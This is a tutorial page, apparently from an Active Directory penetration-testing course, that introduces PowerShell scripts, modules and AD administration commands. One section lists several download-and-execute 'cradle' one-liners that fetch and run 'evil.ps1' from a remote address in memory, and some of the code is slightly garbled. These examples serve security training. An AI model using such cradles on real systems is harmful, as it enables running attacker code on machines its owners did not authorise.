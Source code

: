 # 2.1 - Introduction to PowerShell

## **What is PowerShell?**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4" %}
[https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4)
{% endembed %}

**PowerShell** is a powerful scripting and automation platform developed by Microsoft. It combines the flexibility of a scripting language with the functionality of a command-line shell, enabling users to manage systems, automate repetitive tasks, and access system components programmatically.

* **Cross-Platform**: Available on Windows, macOS, and Linux.
* **Object-Oriented**: Operates with objects instead of plain text, allowing for more precise and flexible scripting.
* **Integration**: Seamlessly integrates with .NET and other Microsoft technologies.
* **Use Cases**: Ideal for administrative tasks, system configuration, and cybersecurity operations.

<div align="left"><figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p><a href="https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large">https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large</a></p></figcaption></figure></div>

{% embed url="https://www.stationx.net/powershell-cheat-sheet/" %}
[https://www.stationx.net/powershell-cheat-sheet/](https://www.stationx.net/powershell-cheat-sheet/)
{% endembed %}

## **Core Components**

### **Scripts**

**Scripts**: `.ps1` files containing PowerShell commands for automating tasks.

*   A script to list all running services:

    ```powershell
    Get-Service | Where-Object { $_.Status -eq "Running" }
    ```
* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

* Download execute [cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') sponse
```

```powershell
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $re
```

```powershell
PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')
```

```powershell
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Check out Invoke-CradleCrafter:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}
[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)
{% endembed %}



* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

### **Modules**

**Modules**: Packages of reusable cmdlets, scripts, and resources.

* Popular modules include:
  * `ActiveDirectory`: Manages AD objects.
  * `Pester`: For testing scripts.
  * `PSReadLine`: Enhances the shell experience.
*   Install with:

    ```powershell
    Install-Module -Name ModuleName
    ```
* A module (or a script) can be imported using:

```powershell
Import-Module C:\AD\Tools|AdModule-master\ActiveDirectory\ActiveDirectory.psd1
```

* All the commands into a module can be listed using:

```powershell
Get-Command -Module <modulename>
```

## **PowerShell for Active Directory (AD)**

PowerShell is a primary tool for managing AD environments.

#### **ADSI (Active Directory Service Interfaces)**

ADSI is a set of COM interfaces for interacting with directory services like Active Directory. It enables querying, modifying, and managing directory objects without requiring additional modules. PowerShell can use ADSI for lightweight operations, especially on systems without the AD module. ADSI uses LDAP paths to locate objects and execute changes. It is versatile but requires knowledge of directory structure and object attributes. Common use cases include user management, password resets, and retrieving directory information. ADSI is powerful for automation in legacy environments or restrictive setups.

#### **.NET Classes for AD**

.NET classes in PowerShell provide direct access to Active Directory operations via the .NET Framework. Key classes like `DirectorySearcher` and `DirectoryEntry` allow querying and managing directory objects. These classes offer fine-grained control over AD queries and modifications. Unlike cmdlets, .NET classes require coding expertise but are highly flexible. They are useful for advanced scenarios like custom searches or handling large datasets. .NET integration with PowerShell allows developers to bypass module dependencies. This approach is ideal for scripting in environments with strict constraints.

**Native Executables**

Native executables like `dsquery`, `net user`, and `nltest` interact directly with Active Directory without PowerShell. They are pre-installed on Windows systems, making them a reliable fallback. These tools are useful for quick queries, user enumeration, or domain configuration checks. For example, `dsquery` retrieves specific AD objects, while `net user` checks group memberships. Native executables can be used in combination with PowerShell for hybrid scripts. They are particularly valuable in environments where PowerShell use is restricted. However, they are less script-friendly compared to PowerShell cmdlets or .NET classes.

**4. WMI (Windows Management Instrumentation) with PowerShell**

WMI is a Windows management framework for accessing system and network information, including Active Directory. PowerShell leverages WMI to query or modify system and directory data remotely. Common uses include querying system information, AD containers, or domain-related data. WMI supports cross-system communication, making it useful for remote administration. It uses namespaces and classes like `DS_Container` to access directory objects. WMI is efficient for real-time monitoring and automation tasks. It is especially valuable in environments where standard AD tools are unavailable.

**5. Active Directory Module (AD Module)**

The AD module is a PowerShell module providing cmdlets for seamless Active Directory management. It simplifies complex AD operations, such as querying users (`Get-ADUser`) or managing groups (`Add-ADGroupMember`). The module integrates tightly with the AD schema, ensuring compatibility and ease of use. It is ideal for administrators who prefer high-level commands over low-level scripting. Common administrative tasks, like resetting passwords or managing group policies, are easily automated. The AD module requires installation on systems that need to run AD-specific cmdlets. It is a go-to tool for modern AD management via PowerShell.

### **Common AD Tasks**

*   **Querying AD Objects**:

    ```powershell
    Get-ADUser -Filter * -SearchBase "OU=IT,DC=example,DC=com"
    ```
*   **Modifying Users or Groups**:

    ```powershell
    New-ADUser -Name "John Doe" -SamAccountName "jdoe" -UserPrincipalName "jdoe@example.com"
    Add-ADGroupMember -Identity "IT_Group" -Members "jdoe"
    ```

### **Benefits of PowerShell with AD**

1. Automation of repetitive administrative tasks.
2. Bulk modifications (e.g., importing users from CSV).
3. Real-time monitoring and auditing through queries.
